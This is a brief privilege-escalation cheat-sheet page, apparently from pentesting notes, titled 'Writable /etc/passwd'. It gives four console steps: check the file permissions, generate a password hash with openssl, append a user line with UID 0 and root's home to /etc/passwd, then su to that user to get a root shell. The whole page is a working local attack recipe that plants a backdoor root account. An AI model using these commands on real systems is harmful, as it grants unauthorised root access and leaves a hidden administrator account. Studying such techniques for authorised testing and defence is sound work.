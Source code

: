 ```yaml
---
title: "Writable /etc/passwd"
date: 2024-7-1
tags: ["passwd", "shadow", "/etc/passwd", "Privilege Escalation"]
---
```


### Abuse #1: Writable /etc/passwd

```console
# Check
ls -l /etc/passwd /etc/shadow
```

```console
# Create password hash
openssl passwd -1 password
```

```console
# Add to /etc/passwd
echo 'user:$1$mQ8Xk.u8$XjFlyg01xLRjhCK/v//Qe/:0:0:comment:/root:/bin/bash' >> /etc/passwd
```

```console
# Get root shell
su - user
```

<br>